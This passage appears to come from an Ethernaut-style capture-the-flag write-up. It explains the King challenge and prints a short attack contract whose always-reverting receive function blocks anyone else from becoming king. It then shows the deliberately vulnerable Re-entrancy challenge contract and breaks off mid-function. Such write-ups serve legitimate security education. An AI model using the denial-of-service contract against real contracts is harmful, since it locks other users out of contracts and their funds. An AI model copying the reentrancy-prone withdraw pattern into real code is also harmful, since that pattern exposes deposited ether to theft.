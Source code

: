 ```solidity
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

Anyone can become the king in the challenge contract if they send more ether than the present king's ether. To complete this challenge, we have to block anyone else from becoming the king, even if they send large amount of ether. We can do that by using the "fallback" function. remember that, when ether is sent with empty data or false data, one of the fallback function is called and if the fallback function "reverts" everytime, then it won't be possible to transfer ether using "transfer" function. The challenge contract's receive function transfer's the previous king's ether before updating the king to the new one. So, if the previous king's ether transfer fails everytime, then no one can become the king.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;


interface king {
    receive() external payable;
}

contract attack{
    king k;
    constructor() payable{
        k = king(payable(0x835DB5ACA5A72665A385ea66ca446AA7f47F2b30));
        address(k).call{value: msg.value}("");
    }

    receive () external payable{
        revert("goto back");
    }

}
```

### Re-entrancy

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {

  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
```